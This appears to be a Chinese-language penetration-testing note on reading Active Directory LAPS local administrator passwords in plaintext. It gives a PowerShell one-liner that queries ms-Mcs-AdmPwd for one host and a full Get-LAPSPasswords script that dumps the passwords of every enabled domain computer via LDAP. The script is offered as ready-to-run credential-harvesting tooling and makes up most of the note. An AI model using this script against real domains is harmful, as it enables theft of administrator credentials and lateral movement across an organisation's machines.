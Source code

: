 没碰过这种操作，但是记录一下，看文章意思就是如果配置过这个，就可以看到域内所有成员的明文密码<br />[https://juejin.cn/post/6844903572497235981](https://juejin.cn/post/6844903572497235981) <br />[https://www.cnblogs.com/linuxsec/articles/6080665.html](https://www.cnblogs.com/linuxsec/articles/6080665.html)

域控上通过域组策略查看明文密码

![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1670943009254-a2de6831-a48c-41ad-9d29-4797e3ae45c3.png#clientId=udfee5f95-24ad-4&from=paste&height=596&id=ud3fc3ce2&originHeight=745&originWidth=941&originalType=binary&ratio=1&rotation=0&showTitle=false&size=128531&status=done&style=none&taskId=u2bb50733-10f1-420c-8ead-2d2f4af87a4&title=&width=752.8)

- 查看某台主机密码

powershell Get-ADComputer 域内主机名 -Properties ms-Mcs-AdmPwd | select name, ms-Mcs-AdmPwd


- 查询所有域内主机密码(要修改最后一行的域控ip和域名）
```java
#!powershell
function Get-LAPSPasswords
{

    [CmdletBinding()]
    Param(
        [Parameter(Mandatory=$false,
        HelpMessage="Credentials to use when connecting to a Domain Controller.")]
        [System.Management.Automation.PSCredential]
        [System.Management.Automation.Credential()]$Credential = [System.Management.Automation.PSCredential]::Empty,

        [Parameter(Mandatory=$false,
        HelpMessage="Domain controller for Domain and Site that you want to query against.")]
        [string]$DomainController,

        [Parameter(Mandatory=$false,
        HelpMessage="Maximum number of Objects to pull from AD, limit is 1,000.")]
        [int]$Limit = 1000,

        [Parameter(Mandatory=$false,
        HelpMessage="scope of a search as either a base, one-level, or subtree search, default is subtree.")]
        [ValidateSet("Subtree","OneLevel","Base")]
        [string]$SearchScope = "Subtree",

        [Parameter(Mandatory=$false,
        HelpMessage="Distinguished Name Path to limit search to.")]

        [string]$SearchDN
    )
    Begin
    {
        if ($DomainController -and $Credential.GetNetworkCredential().Password)
        {
            $objDomain = New-Object System.DirectoryServices.DirectoryEntry "LDAP://$($DomainController)", $Credential.UserName,$Credential.GetNetworkCredential().Password
            $objSearcher = New-Object System.DirectoryServices.DirectorySearcher $objDomain
        }
        else
        {
            $objDomain = [ADSI]""  
            $objSearcher = New-Object System.DirectoryServices.DirectorySearcher $objDomain
        }
    }

    Process
    {
        # Status user
        Write-Verbose "[*] Grabbing computer accounts from Active Directory..."

        # Create data table for hostnames, and passwords from LDAP
        $TableAdsComputers = New-Object System.Data.DataTable 
        $TableAdsComputers.Columns.Add('Hostname') | Out-Null
        $TableAdsComputers.Columns.Add('Stored') | Out-Null
        $TableAdsComputers.Columns.Add('Readable') | Out-Null
        $TableAdsComputers.Columns.Add('Password') | Out-Null
        $TableAdsComputers.Columns.Add('Expiration') | Out-Null

        # ------------------------------------------------
        # Grab computer account information from Active Directory via LDAP
        # ------------------------------------------------
        $CompFilter = "(&(objectCategory=Computer))"
        $ObjSearcher.PageSize = $Limit
        $ObjSearcher.Filter = $CompFilter
        $ObjSearcher.SearchScope = "Subtree"

        if ($SearchDN)
        {
            $objSearcher.SearchDN = New-Object System.DirectoryServices.DirectoryEntry("LDAP://$($SearchDN)")
        }

        $ObjSearcher.FindAll() | ForEach-Object {

            # Setup fields
            $CurrentHost = $($_.properties['dnshostname'])
            $CurrentUac = $($_.properties['useraccountcontrol'])
            $CurrentPassword = $($_.properties['ms-MCS-AdmPwd'])
            if ($_.properties['ms-MCS-AdmPwdExpirationTime'] -ge 0){$CurrentExpiration = $([datetime]::FromFileTime([convert]::ToInt64($_.properties['ms-MCS-AdmPwdExpirationTime'],10)))}
            else{$CurrentExpiration = "NA"}

            $PasswordAvailable = 0
            $PasswordStored = 1

            $CurrentUacBin = [convert]::ToString($CurrentUac,2)

            # Check the 2nd to last value to determine if its disabled
            $DisableOffset = $CurrentUacBin.Length - 2
            $CurrentDisabled = $CurrentUacBin.Substring($DisableOffset,1)

            # Set flag if stored password is not available
            if ($CurrentExpiration -eq "NA"){$PasswordStored = 0}


            if ($CurrentPassword.length -ge 1){$PasswordAvailable = 1}


            # Add computer to list if it's enabled
            if ($CurrentDisabled  -eq 0){
                # Add domain computer to data table
                $TableAdsComputers.Rows.Add($CurrentHost,$PasswordStored,$PasswordAvailable,$CurrentPassword, $CurrentExpiration) | Out-Null
            }

            # Display results
            $TableAdsComputers | Sort-Object {$_.Hostname} -Descending
         }
    }
    End
    {
    }
}
Get-LAPSPasswords -DomainController 域控IP -Credential test.local\Administrator | Format-Table -AutoSize
```

